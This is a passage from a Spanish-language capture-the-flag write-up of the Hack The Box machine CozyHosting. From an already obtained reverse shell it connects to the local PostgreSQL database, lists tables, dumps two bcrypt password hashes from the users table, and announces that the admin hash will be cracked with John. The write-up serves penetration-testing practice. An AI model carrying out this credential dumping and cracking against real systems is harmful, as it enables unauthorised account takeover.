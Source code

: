 Asi que en la reverse shell que conseguimos, nos conectaremos:

```ruby
psql -U postgres -W -h 127.0.0.1 -d cozyhosting
```

Listamos las bases de datos con: **\l**:

![](/assets/img/htb-cozyHosting/11.png)

En mi caso yo ya estoy conectado a la base de datos **cozyhosting**, pero en caso de que no, usa el comando: **\c cozyhosting**

Si mostramos las tablas tenemos varias:

```ruby
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

Si hacemos un select de users, vamos a ver dos hashes

```ruby
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Intentaremos crackear el de admin usando John

![](/assets/img/htb-cozyHosting/12.png)
